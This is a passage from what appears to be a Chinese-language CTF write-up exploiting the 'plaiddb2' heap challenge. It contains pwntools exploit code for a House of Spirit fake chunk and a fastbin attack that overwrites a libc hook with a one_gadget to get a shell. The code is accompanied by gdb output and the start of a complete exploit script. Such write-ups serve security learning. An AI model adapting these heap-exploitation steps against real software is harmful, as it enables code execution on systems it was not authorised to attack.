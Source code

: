 **实现代码**

```
#House of Spirit
fake_chunk=HEAP_ADDR+0x2f0
one_gadget=0xe58c5+LIBC_ADDR
address=LIBC_ADDR+0x3BE740-35#address=0x66666666

PUT("KEY1",1000,"A"*1000)
PUT("KEY1",1000,KEY1[1:289]+p64(fake_chunk)+KEY1[297:369]+p64(0)+p64(0x70)+p64(0x70)*16+KEY1[513:]) #0x70 to pass the fast bin next chunk check
DEL("LEAKBUF")
GET("KEY1")
p.recvuntil(" bytes]:")
KEY1=p.recv(1000)
#PUT("KEY1",1000,"A"*1000)
DEL("KEY1")
PUT("KEY1",1000,KEY1[1:385]+p64(address)+KEY1[393:])
```

测试数据address=0x6666666成功修改fastbin链的头

```
x/20xg  0x7ffff7dce768
0x7ffff7dce768: 0x0000000066666666  0x0000000000000000
0x7ffff7dce778: 0x0000555555758270  0x0000000000000000
```

#### <a class="reference-link" name="Get%20Shell"></a>Get Shell

```
#fastbin attack
PUT("Fill",0x60,"F"*0x60)#malloc fake_chunk
PUT("Fill2",0x60,"F"*(35-16)+p64(one_gadget)+"F"*(0x60-(35-16)-8)) #any address write
DEL("GetSHELL")
```

将ASLR开启，运行脚本成功get shell

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://gitee.com/p0kerface/blog_image_management/raw/master/uploads/AFL_FUZZ20277.png)

**完整的EXP**

```
from pwn import *

p=process("./plaiddb2")
bin=ELF("./plaiddb2")
libc=ELF("libc.so.6")
#context.log_level='Debug'
#gdb.attach(p)

def PUT(row_key,size,data):
    p.recvuntil("PROMPT: Enter command:")
    p.sendline("PUT")
    p.recvuntil("PROMPT: Enter row key:")
    p.sendline(row_key);
    p.recvuntil("PROMPT: Enter data size:")
    p.sendline(str(size))
    p.recvuntil("PROMPT: Enter data:")
    p.sendline(data)
def GET(row_key):
    p.recvuntil("PROMPT: Enter command:")
    p.sendline("GET")
    p.recvuntil("PROMPT: Enter row key:")
    p.sendline(row_key)
```